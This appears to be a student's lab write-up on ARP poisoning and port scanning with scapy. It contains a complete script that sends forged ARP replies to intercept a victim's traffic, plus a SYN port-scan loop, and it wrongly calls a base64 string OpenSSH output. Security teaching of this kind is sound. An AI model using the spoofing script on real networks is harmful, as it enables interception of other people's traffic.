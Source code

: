 # Secure Admin Tools - Lab IV

## ARP Poisoning and Portscan

Install scapy
```bash
python3 -m pip install scapy
```

Start scapy
```bash
sudo scapy
```

> It took me f..ing 6 hours to understand and getting things ready for using this fu..ing sh.t of a fu..ing tool mother fu..er, I am so pissed !!

To simplify all the usage: We have got different python Classes for different packet types. At first we are going to create a Ethernet packet followed by a ARP packet. To append two layers, we will use the operator / To show all available fields of a packet we can use the function list(PACKET) where PACKET can be Ether or ARP or anything else available. At first we will use the command `arp -a` to list the local arp table of our server

```console
nichil@secat-02:~$ arp -a
? (192.168.130.1) at 00:50:56:c0:00:08 [ether] on ens33
? (192.168.130.128) at 00:0c:29:3a:31:c6 [ether] on ens33
_gateway (192.168.130.2) at 00:50:56:e3:fb:3c [ether] on ens33
```

> enable packet forwarding so the spoofed packets can be forwarded accordingly `echo 1 > /proc/sys/net/ipv4/ip_forward`

Let's build up a broadcast ARP request

```console
>>> arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
>>> arpbc.show()
###[ Ethernet ]###
  dst= ff:ff:ff:ff:ff:ff
  src= 00:0c:29:3a:31:c6
  type= 0x806
###[ ARP ]###
     hwtype= 0x1
     ptype= 0x800
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 00:0c:29:3a:31:c6
     psrc= 192.168.130.128
     hwdst= None
     pdst= 192.168.130.2

>>> response=srp(arpbc, timeout=2)
Begin emission:
...Finished sending 1 packets.
*
Received 4 packets, got 1 answers, remaining 0 packets
>>> response
(<Results: TCP:0 UDP:0 ICMP:0 Other:1>,
 <Unanswered: TCP:0 UDP:0 ICMP:0 Other:0>)
>>> response[0]
<Results: TCP:0 UDP:0 ICMP:0 Other:1>
>>> response[0][0]
(<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>,
 <Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
>>> response[0][0][0]
<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>
>>> response[0][0][1]
<Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>
>>> response[0][0][1].hwsrc
'00:50:56:e3:fb:3c'
```

So we can shorten this down to following code lines for both gateway and target server

```
# gateway
arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
arpbcrsp=srp(arpbc)
arpbcrsp[0][0][1].hwsrc

```

Knowing this information we can write a short script to spoof ARP continiously

```python
from scapy.config import conf
from scapy.layers.l2 import ARP, Ether
from scapy.sendrecv import srp, sendp, send
from time import sleep

__author__ = "nichil"
__date__ = "12.04.2020"
__github__ = "https://github.com/starvis"


def main():
    conf.verb = False
    spoof_ip = "192.168.130.2"
    spoof_mac = get_mac(spoof_ip)
    victim_ip = "192.168.130.129"
    victim_mac = get_mac(victim_ip)

    try:
        print("Sending spoofed arp")
        while True:
            spoof(victim_ip=victim_ip, spoof_ip=spoof_ip, sppof_mac=spoof_mac)
            spoof(victim_ip=spoof_ip, spoof_ip=victim_ip, sppof_mac=victim_mac)
            sleep(1)

    except KeyboardInterrupt:
        print("Healing victim")
        heal_victim(victim_ip, victim_mac, spoof_ip, spoof_mac)
        heal_victim(spoof_ip, spoof_mac, victim_ip, victim_mac)


def heal_victim(tip, tmac, sip, smac):
    packet = ARP(op="is-at", pdst=tip, hwdst=tmac, psrc=sip, hwsrc=smac)
    send(packet)


def spoof(victim_ip, spoof_ip, sppof_mac):
    faulty_arp_reply = ARP(op="is-at", psrc=spoof_ip, pdst=victim_ip, hwdst=sppof_mac)
    send(faulty_arp_reply)


def get_mac(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", pdst=ip)
    arp_broadcast_response = srp(arp_broadcast)
    return arp_broadcast_response[0][0][1].hwsrc


if __name__ == "__main__":
    main()

```

In order to test the spoofing I am going to use tcpdump and nc. I will listen on Port 6969 on theMachine and open a connection from secat-02 to theMachine on Port 6969. As the Mac address on the ARP table of secat-02 for the gateway got swapped with mine, I will receive the messages sent over port 6969 on secat-01 which is the MITM in this scenario. The packets will be forwarded because I have enabled ipv4 forwarding. The packets are captured with tcpdump using the -X arg to see ASCII encoded data. 

![arp_spoof_proof.PNG](arp_spoof_proof.PNG)


## Portscan

Login to its.fh-campuswien.ac.at is the one which was set in lab3

The code in the instructions does not work for me so I wrote my own
```
sudo /etc/scapy/run_scapy << EOF
conf.verb = False
ip = '172.16.51.142'
ports = []
for i in range(1,10000):
    packages = IP(dst=ip, ttl=43) / TCP(dport=i, flags='S')
    results, unanswered = sr(packages, timeout=10, iface='ens18')
    for result in results:
        if result[1][1].flags == 'SA':
            ports.append(result[1][1].sport)

print(ports)
    

EOF
```
The resulting Ports were [22, 7538]
Webserver is listening on Port 7538
Webservers output of a GET Request is Q29uZ3JhdHVyYXRpb24sIGEgd2lubmVyIGlzIHlvdSE=
This seems to be an output from openssh, it is not an hash-digest. We used it in the first lab.
